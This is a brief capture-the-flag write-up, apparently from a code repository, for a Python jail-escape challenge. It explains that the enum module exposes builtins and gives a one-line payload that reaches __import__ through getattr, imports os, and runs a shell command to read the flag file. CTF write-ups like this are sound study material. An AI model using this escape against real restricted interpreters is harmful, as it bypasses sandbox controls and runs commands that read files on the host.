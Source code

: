 # solve

lmao this is so easy but the chall looks so intimidating

they import enum which provides direct access to bltns (builtins) and also sys module lol

```py
import enum
enum.bltns.getattr(enum.bltns, '__import__')('os').system('cat /app/flag*')
```

